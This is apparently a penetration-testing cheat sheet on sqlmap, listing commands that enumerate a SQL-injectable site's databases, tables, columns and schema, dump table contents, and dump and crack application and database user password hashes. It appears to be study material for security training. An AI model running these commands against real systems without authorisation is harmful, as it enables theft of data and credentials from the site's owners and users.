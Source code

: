 # Enumeration

### Basic DB Enumeration
- We can use multiple flags to retrieve the information about the target's DB.

```bash
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```

--banner: Database version
--current-user: current username
--current-db: current database name
--is-dba: check if the current user has admin rights.


**Note**: A lot of time, we encounter user 'root' from enumeration. This 'root' user is completely different from the OS user 'root'.

### Tables Enumeration

```bash
sqlmap -u "https://example.com/?id=1" --tables -D $DB_NAME
```
--tables: dump all the table in the DB

### Users Enumeration

```bash
sqlmap -u "https://example.com/?id=1" --dump -T $TABLE_NAME -D $DB_NAME
```

--dump: retrieve all contents of the specified table
-T: specify the table name

### Table/Rows Enumeration

```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname
```

-C: specify the column name(s)

- To narrow down the output, use `--start` and `--stop`

```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname --start=2 --stop=3
```

--start=2: start at the second entry
--stop=3: stop at the third entry

### Coditional Enumeration

```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"
```

### Full DB Enumeration
- Use `--dump` to retrieve all the table in the database.
- Use `--dump-all` to retrieve all the content of all databases.


### DB Schema Enumeration

```bash
sqlmap -u "https://example.com/?id=1" --schema
```

### Searching for Data

```bash
sqlmap -u "https://example.com/?id=1" --search -T user
```

--search: perform search operations for any databases, rows or columns.

### Password Enumeration & Cracking
- Once we have identified the table containing passwords, we can run a regular sqlmap command and it will automatically crack the hashes

```bash
sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users
```

### DB Users Password Enumeration & Cracking
- Beside the applications' users, we are also interested in the DB users. Hence, we need to enumerate them and crack their passwords.

```bash
sqlmap -u "https://example.com/?id=1" --passwords --batch
```

--passwords: dump the content of system tables containing Database-specific credentials.
--batch: ignore all the prompts that require users' inpu while sqlmap is running.



